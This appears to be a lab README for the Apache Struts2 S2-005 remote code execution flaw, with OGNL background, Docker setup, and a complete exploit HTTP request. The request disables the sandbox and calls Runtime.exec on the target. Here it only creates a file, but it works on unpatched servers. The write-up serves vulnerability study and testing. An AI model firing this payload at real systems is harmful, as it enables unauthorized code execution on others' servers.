

# S2-005 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.1.8.1

Details: http://struts.apache.org/docs/s2-005.html

## Reference

Refer 《White hat speaking Web Security》 by Wu Hanqing (Author)

> s2-005 is a vulnerability which originating from S2-003(version: < 2.0.12), This behavior has been filtered in S2-003, but it turned out that the resulting fix based on whitelisting acceptable parameter names closed the vulnerability only partially.

XWork will parse the keys and values of the GET parameter into Java statements using OGNL expressions, such as:

```
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//It will be converted to
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

Process follows:

- In S2-003 Use `\u0023` to bypass struts2's filter `#`
- After S2-003 struts2 added security mode (sandbox)
- In S2-005 Use the OGNL expression to close the security mode and bypass again

## Setup

Run the following commands to start the environment

```
docker-compose build
docker-compose up -d
```

## POC && EXP

Remote code execution POC (don't have display echo, use `@` instead space):

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36

```

Some others POC will return 400 in tomcat8.Because the characters `\`, `"` can't be placed directly in the path, we need urlencode it before send.

This POC don't have display, used OGNL's Expression Evaluation:



`(aaa)(bbb)`, `aaa` is used as the OGNL expression string, and `bbb` is the root object of the expression. Therefore, if we needs to execute code like `aaa`, it needs to be wrapped in quotation marks, and the `bbb` position can directly place the Java statement. `(aaa)(bbb)=true` is actually `aaa=true`.

However, how to understand exactly, it needs further research and to be optimized. Hope someone can write a POC that can display echo.
